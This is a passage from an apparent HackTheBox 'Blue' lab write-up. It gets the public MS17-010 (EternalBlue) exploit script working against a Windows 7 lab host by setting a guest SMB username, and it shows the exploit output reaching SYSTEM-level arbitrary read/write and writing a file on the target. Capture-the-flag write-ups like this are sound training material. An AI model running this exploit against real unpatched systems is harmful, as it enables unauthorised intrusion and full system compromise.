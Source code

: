 But it looks like it is trying to read from some other file as well. We can download this file from [here](https://github.com/worawit/MS17-010/blob/master/mysmb.py).

```
┌──(kali㉿kali)-[~/Desktop/htb/blue]
└─$ python2.7 42315.py
42315.py <ip> [pipe_name]
                                                                                                                     
┌──(kali㉿kali)-[~/Desktop/htb/blue]
└─$ python2.7 42315.py 10.10.10.40
Target OS: Windows 7 Professional 7601 Service Pack 1
Not found accessible named pipe
Done
```

Still it looks like we are not able to perform the exploit. So, we can try to take a look at the source-code and see if we can fix it. So, we need to do 2 things to make this executable work.

1. Determine a username/password pair so that the script can access the SMB share.
2. Create a reverse shell payload and send it over to the target to get it executed.

Throughout our enumeration up till this point we did not find any user details so can try using `guest` username and see if it works. To do so we just need to add `guest` as the value of `USERNAME` in the exploit script.

```
    36	USERNAME = 'guest'
    37	PASSWORD = ''
```

Once updated, we can test the script:

```
┌──(kali㉿kali)-[~/Desktop/htb/blue]
└─$ python2.7 42315.py 10.10.10.40
Target OS: Windows 7 Professional 7601 Service Pack 1
Using named pipe: samr
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
CONNECTION: 0xfffffa8003f51020
SESSION: 0xfffff8a00c119260
FLINK: 0xfffff8a001132048
InParam: 0xfffff8a008c7915c
MID: 0x70b
unexpected alignment, diff: 0x-7b47fb8
leak failed... try again
CONNECTION: 0xfffffa8003f51020
SESSION: 0xfffff8a00c119260
FLINK: 0xfffff8a008ca4088
InParam: 0xfffff8a008c9e15c
MID: 0x803
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM
overwriting session security context
creating file c:\pwned.txt on the target
Done
```
